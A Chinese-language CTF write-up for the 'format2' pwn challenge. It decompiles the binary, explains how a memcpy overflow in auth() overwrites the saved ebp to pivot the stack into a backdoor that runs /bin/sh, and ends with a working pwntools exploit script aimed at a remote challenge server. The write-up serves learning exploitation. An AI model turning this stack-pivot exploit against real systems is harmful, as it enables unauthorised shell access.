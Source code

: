 # format2
### IDA分析
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-3Ch]
  int v5; // [esp+18h] [ebp-28h] BYREF
  _BYTE v6[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int v7; // [esp+3Ch] [ebp-4h]

  memset(v6, 0, sizeof(v6));
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ", v4);
  _isoc99_scanf("%30s", v6);
  memset(&input, 0, 12);
  v5 = 0;
  v7 = Base64Decode(v6, &v5);
  if ( v7 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v5, v7);
    if ( auth(v7) == 1 )
      correct();
  }
  return 0;
}
```
在correct函数发现后门地址
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```
auth函数存在溢出点
```c
BOOL __cdecl auth(int a1)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  const char *v3; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  v3 = (const char *)calc_md5(v2, 12);
  printf("hash : %s\n", v3);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", v3) == 0;
}
```
memcpy传入的是v4的地址，而v4是int，最多也就8字节，因此这里可以溢出.
#### 分析
程序的流程是将我们输入的字符串进行BASE64解密后，再调用auth函数验证，成功就执行shell。但是auth函数存在溢出漏洞

auth布局
|0x4字节（esp）|栈顶|
|---|---|
|....|.....|
|0x8字节(ebp-0x8)|存储着v4的值|
0x4(ebp)|栈底上一个函数的ebp
0x4(ebp+0x4)|auth返回地址

并且主函数里做了判断，base64解密后的长度不能大于12
也就是说，我们的payload长度最长为12，我们可以溢出v4 到后面4个字节，也就是会覆盖auth的ebp的内容

我们知道，main进入auth函数时，是这样的

1. push ebp  
2. mov esp,ebp  
3. sub esp,0x28  

而退出auth函数时，即执行leave指令时，是这样的

1. mov esp,ebp  
2. pop ebp  
也就是说，auth的ebp存的内容为main的ebp

因此把auth的ebp写为input地址
为了便于分析,我们的input存入如下内容aaaabbbbcccc

那么auth依然正常退出到main，但是main的ebp变成了cccc当main要退出时,执行leave指令mov esp,ebp

esp变成了cccc,那么pop ebp就使得ebp = [cccc],

接下来,retn 即执行call [cccc+ 4]

因此，我们把bbbb改成我们的getshell的地址,把cccc改成input_addr，那么我们就能get shell。

因此payload：

```python
from pwn import *  
import base64  
  
context.log_level = 'debug'  
#sh = process('./format2')  
sh = remote("61.147.171.105",53717)  
elf = ELF('./format2')  
#bss段的input区域  
input_addr = elf.sym['input']  
getshell_addr = elf.sym['correct'] + 0x19  
  
sh.recvuntil('Authenticate :')  
  
#覆盖auth函数的ebp内容，也就是修改了上一个函数的ebp，使得上一个函数(main)的ebp指向了input_addr  
#那么，当main函数leave时，有  
#mov esp,ebp  ;esp = input_addr  
#pop ebp  ;ebp = aaaa  
#retn ; call getshell_addr  
payload = b'a'*4 + p32(getshell_addr) + p32(input_addr)  
  
sh.sendline(base64.b64encode(payload))  
  
sh.interactive() 

```